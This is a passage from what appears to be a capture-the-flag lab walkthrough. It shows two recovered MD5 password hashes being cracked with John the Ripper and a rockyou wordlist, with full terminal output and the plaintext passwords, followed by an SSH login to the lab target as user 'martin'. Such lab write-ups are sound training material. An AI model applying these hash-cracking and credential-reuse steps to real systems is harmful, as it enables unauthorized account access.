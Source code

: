 Two (2) users have been found with their username and password hashes.

- `martin:3de6f30c4a09c27fc71932bfc68474be`
- `development:759b74ce43947f5f4c91aeddc3e5bad3`

Using `john` to crack these two MD5 hashes we found the password of `martin` and `development`.

### Martin Hash

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
nafeelswordsmaster (?)     
1g 0:00:00:00 DONE (2025-08-02 09:35) 4.761g/s 24889Kp/s 24889Kc/s 24889KC/s nafi1993..nafal1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

### Development Hash

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=raw-md5       
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
development      (?)     
1g 0:00:00:00 DONE (2025-08-02 09:38) 100.0g/s 20294Kp/s 20294Kc/s 20294KC/s dompet..deshawn15
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

#### Results:
- `martin:nafeelswordsmaster`
- `development:development`

Using `ssh` to connect to the target's system as `martin`, submitting the credentials found, user access to the system is achieved.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh martin@10.129.245.206
martin@10.129.245.206's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 03 Aug 2025 12:34:44 PM UTC

  System load:           0.08
  Usage of /:            51.5% of 5.33GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             235
  Users logged in:       0
  IPv4 address for eth0: 10.129.245.206
  IPv6 address for eth0: dead:beef::250:56ff:fe94:27f7


Expanded Security Maintenance for Applications is not enabled.
```